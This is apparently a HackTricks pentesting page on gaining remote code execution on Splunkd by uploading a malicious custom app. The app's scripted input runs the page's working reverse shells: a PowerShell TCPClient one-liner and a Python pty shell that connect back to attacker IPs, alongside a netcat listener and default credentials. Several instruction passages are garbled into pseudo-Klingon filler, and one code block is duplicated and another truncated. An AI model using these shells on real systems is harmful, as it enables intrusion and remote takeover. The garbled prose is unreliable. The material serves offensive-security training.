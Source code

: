 # 8089 - Pentesting Splunkd

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Basic Information**

Splunk jup log analytics tool that plays a crucial role in gathering, analyzing, and visualizing data. While its initial purpose was not to serve as a SIEM (Security Information and Event Management) tool, it has gained popularity in the realm of security monitoring and business analytics.

Splunk deployments are frequently utilized to store sensitive data and can serve as a valuable source of information for potential attackers if they manage to compromise the system.
Default port: 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Splunk web server** **runs by default on port 8000**.
{% endhint %}

## Enumeration

### Free Version

**Splunk Enterprise trial** **converts to a free version after 60 days**, which **doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is **subsequently forgotten about**. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

### Default Credentials

On older versions of Splunk, the default credentials are **`admin:changeme`**, which are conveniently displayed on the login page.\
However, **the latest version of Splunk** sets **credentials** **during the installation process**. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtain Information

Once logged in to Splunk, we can **browse data,** run **reports**, create **dashboards**, **install applications** from the Splunkbase library, and install custom applications.\
You can also run code: Splunk has multiple ways of **running code**, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

Moreover, as Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

A custom application can run **Python, Batch, Bash, or PowerShell scripts**.\
Note that **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The **`bin`** directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** **yIbuS** **scripts** **qar'a'** **(ghorgh, PowerShell reverse shell)**, **default** **yIbuS** **`inputs.conf`** **file** **'e'**. **PowerShell** **one-liner** **reverse shell** **'oH** **'e':**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**`bin`** **DI'** **scripts** **qar'a'** **(ghorgh, PowerShell reverse shell)**, **default** **DI'** **`inputs.conf`** **file** **'e'**. **PowerShell** **one-liner** **reverse shell** **'oH** **'e':**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
[inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk **which script to run** and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
**Translation:**

```
Qapla'! 
QaStaHvIS `.bat` file, 'ej vItlhutlh 'e' vItlhutlh PowerShell one-liner vItlhutlh 'ej vItlhutlh 'e' vItlhutlh application.

vItlhutlh step vItlhutlh 'Install app from file' 'ej application upload.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

malicious custom app upload vItlhutlh, Netcat 'ej [socat](https://linux.die.net/man/1/socat) vItlhutlh listener vItlhutlh. 
```
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
`Upload app`-vam, browse-lI' vItlhutlh, tarball rur vItlhutlh, 'Upload' vIlegh. **vaj 'oH upload application**, 'ej **reverse shell** vItlhutlh, application status 'Enabled' vItlhutlh.

#### Linux

**Linux host**-Daq 'e' vIlegh, tarball 'ej custom malicious app vItlhutlh, 'rev.py' Python script **edit** vIlegh. vaj 'oH process vItlhutlh, Netcat listener vItlhutlh reverse shell connection vIlegh 'ej vItlhutlh.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
